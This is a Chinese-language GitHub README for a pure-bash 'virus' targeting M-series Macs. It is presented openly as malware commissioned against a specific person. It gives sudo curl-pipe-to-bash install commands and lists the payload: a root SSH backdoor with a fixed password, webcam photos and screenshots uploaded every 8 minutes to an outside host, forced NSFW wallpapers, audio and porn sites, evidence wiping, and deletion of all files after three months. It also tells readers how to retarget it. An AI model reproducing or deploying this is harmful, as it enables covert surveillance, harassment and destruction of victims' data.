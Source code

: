 # 史上第一款，MacOS M系列病毒，100%纯bash（需要手动给予权限/nclick exploit）

首次设置
---
`sudo curl -fsSL https://raw.githubusercontent.com/Thomas20090425/Ultimate-Troll/refs/heads/main/humaninter.sh | bash`

一键启动
---
`wget https://raw.githubusercontent.com/Thomas20090425/Ultimate-Troll/refs/heads/main/init-main.sh && sh init-main.sh`

(一键启动之后建议先CTRL+C然后把~/programfiles/time.txt文件vim一下往后调3个小时，让他先强制运行一遍，确认上传+权限Terminal已经给好。然后重启电脑，确认DL.app也拥有相应权限。之后建议把Time再改回来然后直接重启。）

一键启动如果出现无法启动，没有下载完全等bug请用一下指令修复

`sudo rm -rf ~/programfiles && wget https://raw.githubusercontent.com/Thomas20090425/Ultimate-Troll/refs/heads/main/init-main.sh && sh init-main.sh`

病毒功能介绍：
---
1.把root用户变成活跃用户，激活root的ssh，并将root密码更改为Aa112211!，给MacOs系统创建后门

2.完全禁用MacOS睡眠功能，保证系用永远运行，关上机盖不会影响脚本运行，更不会影响ssh的通行。

3.每8分钟通过摄像头拍一张图片，截一张桌面的图片并上传至drive.genshinimpact.ca

4.NSFW抽卡式随机壁纸，每隔随机一段时间，会自动获取一张壁纸，保底为10（第十张图片一定是NSFW，否则SFW）通过两个不同的API，达到终极社死。

5.随机音频，每隔随机一段时间，会自动从内置的音效文件夹里播放一个音效，保底为10（第十个音频一定是长音频，否则短音效），播放过程中，声音为100%，而且无法静音，无法暂停，系统无法显示播放数据。

6.每隔一段时间会通过默认浏览器随机打开在名单里的一个默认黄色网页。

7.带有紧急叫停功能，每隔20秒会检查https://genshinimpact.ca/favicon.ico 在不在，如果返回数据不是200，那么说明已经被紧急叫停。进入证据销毁模式，删除所有软件残留以及mac的全乎log与cach，恢复所有设置并且重新启动刷新低代码nvram。（这个也是“原谅朋友”功能）

8.自动安装所有依赖脚本。

9.3个月后系统自毁（有杀伤力）：删除所有app，删除所有个人文件，创建50个乱码帐户，将admin帐户密码改成Aa112211!。（脚本同时自毁）。

Note：
---
1.这名感谢某个金主爸爸赞助了50$买了我3天的时间编了这个bash，我3个月内再碰一次bash我就是个狗。

2.任何损失和作者无关，如果你不知道你在干什么，不要干！

3.由于本人偷懒，很多东西没有用variable，是直接按照那个人要攻击的要求做的。所以fork之后是不可能在你的电脑上能用的。建议各位更改脚本里的：
 - 用户名
 - 密码
 - 后门网站
 - WebDav文件上传地址
 - （如果你有能力把它做成一个variable脚本，那麻烦你了，我懒得做了）

4.玩的开心。